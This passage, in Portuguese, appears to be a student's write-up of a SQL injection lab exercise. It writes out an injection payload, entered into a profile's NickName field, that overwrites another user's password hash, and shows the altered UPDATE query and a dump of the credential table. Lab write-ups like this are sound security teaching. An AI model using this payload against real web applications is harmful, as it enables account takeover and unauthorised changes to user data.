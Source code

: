 ### Task 3.3: Modify other people' password

Pretende-se alterar a password do Boby, por exemplo para `1234`. A diferença em relação à tarefa anterior é o atributo a ser modificado, neste caso é `Password` em vez de `salary`. Sendo assim, escreveu-se `', Password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Name='Boby';#` no campo `NickName` (e os outros campos ficaram vazios) na página de editar o perfil da Alice. Desta maneira, a _query_ SQL será alterada para a seguinte:

```sql
UPDATE credential SET
  nickname='', Password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220' WHERE Name='Boby';#',
  email='',
  address='',
  Password='',
  PhoneNumber=''
WHERE ID=$id;
``` 

Tal como é dito, "database stores the hash value of passwords instead of the plaintext password string. [...] It uses SHA1 hash function to generate the hash value of password". Como o resultado de `SHA1` da string `1234` é `7110eda4d09e062aa5e4a390b0a572ac0d2c0220`, foi usado `Password='7110eda4d09e062aa5e4a390b0a572ac0d2c0220'` em vez de `Password='1234'`.

Assim, podemos confirmar que a password foi alterada na tabela `credential` para `7110eda4d09e062aa5e4a390b0a572ac0d2c0220`:

```sh
mysql> SELECT * FROM credential;
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 | 999999 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
|  2 | Boby  | 20000 |      1 | 4/20  | 10213352 |             |         |       |          | 7110eda4d09e062aa5e4a390b0a572ac0d2c0220 |
|  3 | Ryan  | 30000 |  50000 | 4/10  | 98993524 |             |         |       |          | a3c50276cb120637cca669eb38fb9928b017e9ef |
|  4 | Samy  | 40000 |  90000 | 1/11  | 32193525 |             |         |       |          | 995b8b8c183f349b3cab0ae7fccd39133508d2af |
|  5 | Ted   | 50000 | 110000 | 11/3  | 32111111 |             |         |       |          | 99343bff28a7bb51cb6f22cb20a618701a2c2f58 |
|  6 | Admin | 99999 | 400000 | 3/5   | 43254314 |             |         |       |          | a5bdf35a1df4ea895905f6f6618e83951a6effc0 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
6 rows in set (0.00 sec)
```

Como seria de esperar, conseguimos fazer login com a nova password - `1234`.
